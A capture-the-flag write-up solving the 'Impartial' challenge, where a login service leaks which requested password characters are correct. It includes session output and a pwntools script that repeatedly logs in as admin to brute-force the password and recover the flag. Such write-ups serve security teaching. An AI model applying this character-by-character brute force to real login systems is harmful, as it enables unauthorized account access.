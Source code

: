 # Impartial

Author: [Gallifrey](https://github.com/gallifrey)


# Challenge

```
Check out the terminal-interface for this new company! Can you uncover any secrets?

Connect with:
nc jh2i.com 50026
```

# Solution

At first I tried bruteforcing the username, and wasted a lot of time on it.
The username changed every time, and I was stuck there for too long.
Then I found the 'admin' username, and figured it was the way to go.

Everytime I logged in as admin, it asked me to enter three random letters of the password...

```
Impartial Advice and Consulting
    . . . we will help you put the pieces together!

1. About
2. Login
3. Register
4. Contact
?. Exit

> 2
 
Please enter a username to log in.

Username: admin
 
For your security, please only enter a partial password.
To protect your account from hackers, enter only the characters
at position 25, 21, and 10 (separated by spaces).

Password:
```
... and told if each letter was correct or not:

```
Password: a a a
 25 character: WRONG
21 character: WRONG
10 character: WRONG

```
Using this to bruteforce the entire password:

```python
import re
from pwn import remote

r = remote("jh2i.com", 50026)

data = ''
nop = list() #---> For all the places a character ISN'T present
al = list(i for i in range(1,37))
flag = list('?' for i in range(40))

#list of all allowed chars
alfa_num = list(chr(x) for x in range(ord('a'),ord('z')+1))
alfa_num.extend(list(chr(x) for x in range(ord('A'),ord('Z')+1)))
alfa_num.extend(list(chr(x) for x in range(ord('0'),ord('1')+1)))
alfa_num.extend(['{','}','_'])

data = r.recvuntil(">").decode()
print(data,end=" ")

for l in alfa_num:
	f = open('a.txt','a') #--> To write down my findings in a file (like a sace progress), cause earlier version of this script kept throwing errors in the middle of a long run
	for i in range(40):
		r.sendline(b"2")
		print("2")
		data = r.recvuntil("Username:").decode()
		print(data,end=" ")
		r.sendline(b"admin")
		print("admin")
		data = r.recvuntil("Password:").decode()
		print(data,end=" ")
		s = "%s %s %s"%(l,l,l)
		print(s)
		r.sendline(s.encode())
		data = r.recvuntil(">").decode()
		print(data,end=" ")
		if '1.Judge' in data:
			r.sendline(b'3')
			continue
		for k in data.split('\n'):
			if 'CORRECT' in k:
				flag[list(int(i) for i in k.split() if i.isdigit())[0]] = l
				print(list(int(i) for i in k.split() if i.isdigit())[0])
			if 'WRONG' in k: 
				nop.extend(list(i for i in data.split() if i.isdigit()))
		print(''.join(flag))
	nop = list(set(nop))
	nop = list(int(a) for a in nop)
	nop = list(filter(lambda x: x not in nop,al))
	to_pr = l + '=' + str(nop)
	f.write(to_pr)
	f.close()

```

The script took some time to run, but I finally got a partial flag

```

```

Then, guessing the flag wasn't hard

```
flag{partial_password_puzzle_pieces}
```
